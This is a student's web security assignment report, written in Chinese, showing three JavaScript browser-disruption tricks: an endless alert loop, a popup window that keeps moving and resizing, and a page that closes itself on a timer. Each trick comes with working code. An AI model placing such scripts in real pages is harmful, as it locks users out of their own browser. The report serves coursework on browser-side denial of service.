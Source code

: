 # Web Security report ---- assignment 2

#### 57118423 宋昌霖

实验要求：在页面中实现任意三种通过客户端让浏览器产生拒绝服务或其他影响用户使用浏览器环境效果的功能，包括但不限于循环弹出对话窗口、新建窗口并随机变化位置、更改窗口焦点、修改回退功能退出常用网站等。

### 功能一：

无限弹窗

代码如下：

```
function alertLoop()
{
	const messages = ['This is a trap!','got you!']
	while(true)
	{
		messages.forEach(window.alert)
	}
}
```

![image-20211209162606006](C:\Users\scl\AppData\Roaming\Typora\typora-user-images\image-20211209162606006.png)

![image-20211209162626132](C:\Users\scl\AppData\Roaming\Typora\typora-user-images\image-20211209162626132.png)

### 功能二：

生成快速移动的干扰窗口

代码如下：

```
function newWin()
{
	var winArr = []
	const win = window.open('','','width=400,height=300')
	let i=0
	setInterval(() =>{
	setInterval(() =>{
		win.moveTo(i,i)
		win.resizeTo(400,300)
		i = (i+50) % 200
	},100)
	},100)
	winArr.push(win)
	
}
```

![win](C:\Users\scl\Desktop\win.gif)

### 功能三：

关闭当前窗口

代码如下

```
var i=2
function ClosePage(){
  i=i-1
  
  
  if(i>0){
    setTimeout("ClosePage();",1000);
  }
  else{
    self.close();
  }
}
```

可以设置关闭的时间节点，效果如下

![close](C:\Users\scl\Desktop\close.gif)